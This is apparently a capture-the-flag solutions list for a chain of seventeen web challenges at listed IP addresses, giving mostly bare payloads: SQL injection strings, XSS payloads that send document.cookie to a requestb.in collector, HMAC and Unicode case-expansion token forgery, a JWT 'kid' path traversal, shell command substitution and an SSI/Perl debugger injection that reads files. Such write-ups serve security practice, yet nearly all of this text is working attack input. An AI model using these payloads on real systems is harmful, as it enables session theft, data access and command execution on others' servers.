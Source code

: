 # 1. sqli
http://188.166.248.215/

<details>
<summary>Solution</summary>
<code>0||1</code>
</details>

# 2. sqli
http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/

<details>
<summary>Solution</summary>
<code>'or'1</code>
</details>

# 3. sqli
http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/

<details>
<summary>Solution</summary>

<code>'||1-- </code>

</details>

# 4. sqli
http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/

<details>
<summary>Solution</summary>
<code>0-- '||1-- "||1-- </code>
</details>

# 5. xss
http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/

<details>
<summary>Solution</summary>

```
<img src=x onerror='src="http://requestb.in/1bikbhd1?x="+encodeURIComponent(document.cookie)'>
```

</details>



# 6. sqli
http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/

<details>
<summary>Solution</summary>

username: `\`  
password: `||1-- `

</details>


# 7. xss
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/

<details>
<summary>Solution</summary>
<p>

js:
`');}location='http://requestb.in/1bikbhd1?x='+encodeURIComponent(document.cookie);{{'*/'/*`

url:
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/?js=')%3B%7Dlocation%3D'http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fx%3D'%2BencodeURIComponent(document.cookie)%3B%7B%7B'*%2F'%2F*

</p>
</details>

# 8. xss
http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/

<details>
<summary>Hint</summary>
<p>

`?url` query parameter is vulnerable to xss. CSP rules are:  
`Content-Security-Policy:default-src 'none'; script-src 'nonce-disabled';`

</p>
</details>

<details>
<summary>Solution</summary>
<p>

url param:

```
pwn"><script nonce="disabled">location="http://requestb.in/1bikbhd1?y="+encodeURIComponent(document.cookie)</script><p x="
```

http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/?url=pwn%22%3E%3Cscript%20nonce%3D%22disabled%22%3Elocation%3D%22http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fy%3D%22%2BencodeURIComponent(document.cookie)%3C%2Fscript%3E%3Cp%20x%3D%22

</p>
</details>

# 9. sqli (triple short)
http://139.59.127.144/d25d0cb4-90c3-465d-8733-b50229371377/

<details>
<summary>Solution</summary>
<p>

```
"="'='
```

</p>
</details>


# 10. sqli (12 random short)
http://139.59.127.144/9fc91798-4c0f-4e23-ab10-32e03e77ac95/

<details>
<summary>Solution</summary>
<p>

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||6='||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||'||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`0='&&0 union select char(0x73756363,6648691)from dual where 1||'"&&0 union select char(0x73756363,6648691)from dual where 1||"&&0 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)from dual where!'"union select char(0x73756363,6648691)from dual where 1||"=3 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)-- '"union select char(0x73756363,6648691)-- "=3 union select char(0x73756363,6648691)-- `

`'union select char(0x73756363,6648691)-- '"union select'success'-- "=3 union select'success'-- `

`'union select char(0x73756363,6648691)#'"union select'success'#"=3 union select'success'#`

`5=6 union select char(0x73756363,6648691)-- '=7 union select'success'-- "=7 union select'success'-- `

`0=3 union select char(0x73756363,6648691)-- 'union select'success'-- "union select'success'-- `

`0=3 union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@ union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@/*'/*"/**/union select'success'#`

```
@#'#"
union select'success'#
```

</p>
</details>

# 11. ruby hmac token 1
http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/

<details>
<summary>Hint</summary>
<p>

There is source leak by forcing some ruby error, for example utf8 decoding error. We need to sign a malformed string, but that's not a problem.

http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/?data=aaaaaaaaa%FFb%20%20%20%20%20%20%20%20%20GUEST%20%20%20%20%20&hmac=ca9a9653f330c29dc8f797c08d6f23a16e17c2132e993b7981a1ad330723b655

```
  end

  generated_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest.new('sha256'), KEY, params["data"])
  unless params["hmac"] == generated_hmac
    return "go away hacker"
  end

  @first_name, @last_name, @role = params["data"].scan(/.{10}/).map(&:rstrip)

  if @role == "ADMIN"
    content_type :txt
    return File.read("#{__dir__}/../next_challenge_info.txt")
  else
    @title = "User Info"
    erb :index
```

</p>
</details>

<details>
<summary>Solution</summary>
<p>

Post data:  
```
first_name[]=1&first_name[]=2&first_name[]=3&first_name[]=444ADMIN++++++++++++++&first_name[]=5&first_name[]=6&first_name[]=7&first_name[]=8&first_name[]=9&first_name[]=0&last_name=ADMIN
```

</p>
</details>

# 12. ruby hmac token 2
http://139.59.127.146/ffd88992-6cc1-4733-bcb5-39dd5b1603a8/

<details>
<summary>Hint</summary>
<p>
This time there is no source, previous exploit doesn't work. This time they capitalized all the input.
</p>
</details>

<details>
<summary>Solution</summary>
<p>

Assume they cut the length before capitalizing and pad afterwards. Unicode anyone? There are codepoints that expand to
more codepoints when uppercased.

ftp://ftp.unicode.org/Public/UCD/latest/ucd/SpecialCasing.txt

```
first_name=aa%1F%B2%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7&last_name=admin+++++
```

</p>
</details>

# 13. jwt bypass
http://139.59.112.116/dddace4a-d619-4204-bb15-df6c0a24d6de/

<details>
<summary>Hint</summary>
<p>
They use this lib: https://github.com/jwt/ruby-jwt
</p>
</solution>

<details>
<summary>Solution</summary>
<p>

kid was a local file

```
var kid = "../../../etc/magic";
var alg = "HS256";
var hdr = $@"{{""typ"":""JWT"",""alg"":""{alg}"",""kid"":""{kid}""}}";
var body = $@"{{""user"":""admin""}}";
```

```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uL2V0Yy9tYWdpYyJ9.eyJ1c2VyIjoiYWRtaW4ifQ.KHvUjYMwH49GkMBB1FyyHJjX8J1kt79VAYadOpLDlMM```

</p>
</solution>

# 14. sqli and php password check
http://139.59.127.147/e08720e1-df29-46cb-b1c8-83a32e9083df/

<details>
<summary>Solution</summary>
<p>

```
sqli
database leak with usernames and password hashes
crackstation: ripemd160

sql = "' UNION SELECT * FROM (SELECT '{}') c LEFT JOIN (SELECT '{}') a ON 1 LEFT JOIN (SELECT 0) b on 1 #".format(username, ripemd160(password).hex())
print(make_query(sql, password))
```

</p>
</solution>

# 15. bash injection
http://139.59.127.148/ed932765-1a3a-467a-be5b-e11dc1fc542d/

<details>
<summary>Solution</summary>
<p>

```$( pwd | cut -c -9 )$( ls -S -r .. )```

</p>
</solution>

# 16. captcha madness with no repeating chars
http://188.166.183.58/96e5c0bd-7f33-4188-94f0-89b3094bd6af/

<details>
<summary>Authors solution</summary>
<p>
http://139.59.127.149/e3cb1461-411d-4281-9c62-80b3c5e83cc9/captcha.php?id=q%27+unioN%0AselEct%0BmId(@fLag%0CFrOM%0D5)%23
</p>
</details>


# 17. echo service
http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/

<details>
<summary>Hint</summary>
<p>
By sending an invalid requests it replies with an error page redirecting to `/index.shtml`. What is `shtml`?

With some investigation we found that the service is in Perl: `index.pl`.
Somehow we found out there is a `/next_challenge` file on the filesystem. Don't remember how.

</p>
</details>

<details>
<summary>Solution</summary>
<p>

```
<!--#set var="PERL5OPT" value="-d" --><!--#set var="PERL5DB" value="BEGIN { require 'perl5db.pl' } END { print `cat /ne*` }" --><!--#include virtual="index.pl" onerror="index.pl"-->
```

http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/?name=%3C!--%23set%20var=%22PERL5OPT%22%20value=%22-d%22%20--%3E%3C!--%23set%20var=%22PERL5DB%22%20value=%22BEGIN%20{%20require%20%27perl5db.pl%27%20}%20END%20{%20print%20`cat%20/ne*`%20}%22%20--%3E%3C!--%23include%20virtual=%22index.pl%22%20onerror=%22index.pl%22--%3E

</p>
</details>
